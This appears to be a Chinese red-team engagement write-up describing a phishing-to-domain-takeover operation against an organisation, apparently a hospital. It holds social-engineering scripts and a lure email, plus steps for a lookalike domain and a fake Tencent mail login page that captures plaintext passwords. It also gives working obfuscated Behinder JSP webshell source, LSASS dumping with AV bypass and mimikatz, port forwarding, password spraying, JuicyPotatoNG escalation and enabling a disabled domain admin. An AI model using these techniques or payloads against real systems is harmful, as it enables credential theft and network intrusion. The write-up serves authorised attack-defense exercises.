# 奇安信攻防社区-【攻防演练】从钓鱼上线到内网漫游

### 【攻防演练】从钓鱼上线到内网漫游

在面对外网口子少的单位时候，钓鱼往往是突破外网最有效的手段，本文针对之前一次钓鱼实战经历做一下简单总结

# 0x01 钓鱼

## 邮箱搜集

在线平台搜集，推荐两个好用的平台

[https://app.snov.io/](https://app.snov.io/)



[http://www.skymem.info/](http://www.skymem.info/)



## 社工钓鱼

一般钓鱼对象选取安全意识比较薄弱的岗位，如客服、招聘HR，在互联网或招聘app上可以搜集到

  
这次方式是制作简历捆绑马，需要准备cs免杀马一枚和一份虚假简历，钓鱼关键是话术

聊天一上来就发个文件，任谁都有警惕性，先加上聊熟了再去发送文件，建立良好关系是第一步，这和谈恋爱是一样的，目的性不能太强

然后就是钓鱼平时先养好微信小号，定期更新朋友圈，这样才显得真实

图标提取

[https://github.com/JarlPenguin/BeCyIconGrabberPortable](https://github.com/JarlPenguin/BeCyIconGrabberPortable)



图标替换

[https://github.com/guitarfreak/SetIcon](https://github.com/guitarfreak/SetIcon)



## 邮件钓鱼

1、个人邮箱（126邮箱、qq邮箱）

优点：注册快捷简单，即开即用

缺点：邮件发送次数限制，敏感关键字屏蔽，极大几率邮件被退信



2、腾讯企业邮

优点：单次发送数量多，邮件不易被邮件服务器拦截

缺点：需要配置，耗费一定的时间

先看看效果



## 腾讯企业邮搭建

我搭建使用的是namesilo+cloudflare+腾讯企业邮

1、买个与目标相似的域名，这里选用namesilo，付款可以支付宝比较方便



位置填入cloudflare的两个地址，在第二步会有提及

  
2、cloudflare添加站点



计划选择免费即可



这两个地址填到第一步namesilo的位置



3、腾讯企业邮点击立即注册

[https://work.weixin.qq.com/mail/](https://work.weixin.qq.com/mail/)



注册完成后在管理后台添加注册域名



  
把记录填入到cloudflare的dns位置，选择MX类型，MX优先级保持一致即可



搭建好之后便可以开始制作钓鱼邮件了

钓鱼话术参考：主题内容贴近生活，用补贴奖品增加吸引力

```php
各位领导，同事：  
​  
趁2022国庆佳节之际，意为感谢全体员工牺牲个人时间为医院发展的辛勤付出，为体现多元化人文关怀，特此为大家准备丰厚礼物，关于礼品发放详情请\[登录\]进行查看：  
​  
提前祝大家国庆欢乐！
```

## 钓鱼页面伪造

注册一个与目标名字相似的域名，解析到VPS上，在VPS上部署一个伪造页面，这次伪造的是腾讯企业邮

环境搭建：apache+php

```php
安装php  
yum install php php-mysql php-gd libjpeg\* php-ldap php-odbc php-pear php-xml php-xmlrpc php-mbstring php-bcmath php-mhash  
​  
安装apache  
yum install httpd\* -y  
​  
开启apache服务  
service httpd start  
​  
关闭apache服务  
systemctl stop httpd.service  
​  
检查状态  
systemctl status httpd.service
```



更改配置文件`/etc/httpd/conf/httpd.conf`，这里修改`/var/www/mail`为根目录，也可以使用默认配置



寻找需要伪造的站点，这里伪造的是腾讯企业邮，通过ctrl+s直接保存html相关资源文件至根目录

在根目录下建立一个php文件用于接收输入的账号密码，并把结果输出到result.txt里



获取参数时参数名要和待伪造的文件内参数名保持一致



将用户登录表单对应的action改为的login.php文件



搭建完成后，前端抓包测试发现输入的密码全转换为0，导致后端输出的结果也变为0



对网站前端html文件进行处理，把处理密码pp值相关js代码进行注释



成功获取到明文密码





在部署过程中可能会碰到乱码的情况，这时候修改Apache服务器字符编码即可，相应的资源文件也要以相同编码保存

```php
vi /etc/httpd/conf/httpd.conf  
AddDefaultCharset UTF-8改成GB2312  
​  
systemctl restart httpd
```



修改完成后最终结果：


搜集第一批邮箱进行投递，投递完成后等着鱼儿上钩

等鱼儿上钩后，登录oa或邮箱系统获取更多员工的邮箱进行二次钓鱼，或者可以利用内网邮箱直接投递


这次演练里由于发送邮件数量较多，很快被管理员发现异常，不过还是上线了几台机器

# 0x02 内网

上线机器后先做好权限维持，等防守人员下班再开扫，先在机器上翻翻文件，抓抓浏览器密码，推荐HackBrowserData

[https://github.com/moonD4rk/HackBrowserData](https://github.com/moonD4rk/HackBrowserData)



等下班后直接fscan开冲，先低线程扫描横向几台机器，以免跳板机掉了，通过弱口令`root/123456`找到一台Linux服务器，通过Linux机器进行扫描



扫描结束使用川哥的脚本对fscan结果进行处理

```py
import re
import os
from argparse import ArgumentParser

# sys读取参数
arg = ArgumentParser(description='Fscan_quchong')
arg.add_argument('-i', '--file', nargs='*',dest='file',help='Scan multiple targets given in a txt file',type=str)
arg.add_argument('-o', '--outfile', dest='outfile', help='the file save result',  default='result.txt',type=str)
result = arg.parse_args()
# 数据结构

SSH=[]
ftp=[]
redis=[]
mysql=[]
mssql=[]
oracle=[]
Memcached=[]
poc=[]
WebTitle=[]
InfoScan=[]
rdp=[]
MS17010=[]
dic_use={
    # 可利用信息梳理
    r".*SSH.*":SSH,
    r".*redis.*":redis,
    r".*mysql.*":mysql,
    r".*oracle.*":oracle,
    r".*mssql.*":mssql,
    r".*Memcached.*":Memcached,
    r".*ftp.*":ftp,
    r".*poc.*":poc,
    r".*InfoScan.*":InfoScan,
    # 端口开放
    r":(\d?3389|33899.*)":rdp,
    r".*MS17-010.*":MS17010,
    r".*WebTitle.*":WebTitle
}
pattern=r"----------.*----------"

def getInfo():
    filetargets=[]
    # 读取指定txt，支持多个
    if result.file!=None:
        filetargets=result.file
    else:
     # 遍历当前文件夹 读取全部txt
        for dirpath, dirnames, filenames in os.walk('.'):
            for filename in filenames:
                if filename.endswith('txt'):
                    filetargets.append(filename)
    print("作用范围："+str(filetargets))
    for filepath in filetargets:
        with open(filepath,'r',encoding='utf-8') as f:
            for line in f.readlines():
               for key in dic_use.keys():
                   if re.findall(key,line): # 正则匹配
                       if not re.findall(pattern,line): # 去重原结果文件
                           dic_use[key].append(line)
                   dic_use[key]=list(set(dic_use[key])) # 去重

def output():
    if result.outfile !=None:
        filename=result.outfile
    with open(filename,"a",encoding='utf-8') as file:
        #清空输出文件
        file.seek(0)
        file.truncate()
        for key in dic_use:
            if len(dic_use[key])!=0:
                if '3389' in key:
                    file.write("----------"+"疑似RDP"+"----------"+"\n")
                    file.write("\n")
                else:
                    # 写入数据
                    file.write("----------"+key[2:-2]+"----------"+"\n")
                    file.write("\n")
            for i in dic_use[key]:
                file.write(i)
            file.write("\n")
    print("结果已生成："+filename)
def main():
    getInfo()
    output()

if __name__ == '__main__':
    main()
```



整理后的结果



扫描后发现入口机器位于办公段，与核心服务器区段存在隔离，扫描结果大多无法访问

1、再起一个代理隧道，但是linux机器不出网，遂改用其他方法

2、双层代理，可以使用代理链实现

## Tomcat部署war包

扫描结果看到一个tomcat弱密码admin/admin，感觉有戏，熟悉的部署war包环节

制作免杀冰蝎马，默认密码rebeyond，打成war包

jar -cvf shell.war ./shell.jsp

```java
<%! public byte[] A14I0(String Strings,String k) { try {javax.crypto.Cipher BI3fM5 = javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");BI3fM5.init(javax.crypto.Cipher.DECRYPT_MODE, (javax.crypto.spec.SecretKeySpec) Class.forName("javax.crypto.spec.SecretKeySpec").getConstructor(byte[].class, String.class).newInstance(k.getBytes(), "AES"));int[] aa = new int[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98};String ccstr = "";for (int i = 0; i < aa.length; i++) { aa[i] = aa[i] ^ 0x010;ccstr = ccstr + (char) aa[i];}byte[] bytes = (byte[]) Class.forName(ccstr).getMethod("decodeBuffer", String.class).invoke(Class.forName(ccstr).newInstance(), Strings);byte[] result = (byte[]) BI3fM5.getClass()./*Z5Z48C2BT7*/getDeclaredMethod/*Z5Z48C2BT7*/("doFinal", new Class[]{byte[].class}).invoke(BI3fM5,new Object[]{bytes});return result;} catch (Exception e) {e.printStackTrace();return null;} } %><%  try {  String KP8HYn8 = "e45e329feb5d925b";  session.putValue("u", KP8HYn8);  byte[] I934d9i = A14I0 (request.getReader().readLine(),KP8HYn8);  java./*Z5Z48C2BT7*/lang./*Z5Z48C2BT7*/reflect.Method A14I0 = Class.forName("java.lang.ClassLoader").getDeclaredMethod/*Z5Z48C2BT7*/("defineClass",byte[].class,int/**/.class,int/**/.class);  A14I0.setAccessible(true);  Class i = (Class)A14I0.invoke(Thread.currentThread()./*Z5Z48C2BT7*/getContextClassLoader(), I934d9i , 0, I934d9i.length);  Object Q362 = i./*Z5Z48C2BT7*/newInstance();  Q362.equals(pageContext); } catch (Exception e) {response.sendError(404);} %>
```



探测一下发现不出网，这里直接使用CS自带的TCP Beacon 正向连接

新建一个TCP Listener



生成beacon.exe到目标机器上运行，使用 connect \[ip address\] \[port\] 命令进行正向连接，即可上线



## Bypass核晶dump lssas

[https://github.com/seventeenman/CallBackDump](https://github.com/seventeenman/CallBackDump)

直接编译生成360会报毒，可稍微修改再次编译生成，生成的VM21-6-8.log拖回本地解密

CallbackDump.exe to



```php
dumpXor.exe VM21-6-8.log 1.dmp  
sekurlsa::minidump 1.dmp  
sekurlsa::logonPasswords
```



上线tomcat机器后，抓取hash值通过cmd5成功解密

探测端口发现445和3389是开放的，但是无法连接过去，猜测可能是对部分端口进行限制

使用netsh转发到8888端口

`netsh interface portproxy add v4tov4 listenport=8888 listenaddress=192.168.121.132 connectport=3389 connectaddress=192.168.121.132`

删除netsh配置

`netsh interface portproxy delete v4tov4 listenport=8888 listenaddress=192.168.121.132 protocol=tcp`



RDP登录到tomcat机器上


## 密码喷射

通过拿到的机器整理出密码本，对内网其他机器进行密码喷射

推荐crackmapexec和railgun

[https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)



[https://github.com/lz520520/railgun](https://github.com/lz520520/railgun)



成功通过密码本组合爆破出另一台机器



#### 高版本机器提权

查看进程发现上面登着域管进程，低权限先提个权

使用下面项目直接到system

[https://github.com/antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

`shell JuicyPotatoNG.exe -t \* -p "beacon.exe"`


高权限直接注入到域管进程

## 拿下域控

通过机器上的域管进程导出域管账户hash，其中有五个域管用户，cmd5批量解，其中一个域管用户能解出明文信息

```php
net group "domain admins" /domain  
shell net user xxxx  
shell net user xxxx /active:yes /domain
```

启用禁用的域管账户，通过域管账户登录域控，over！


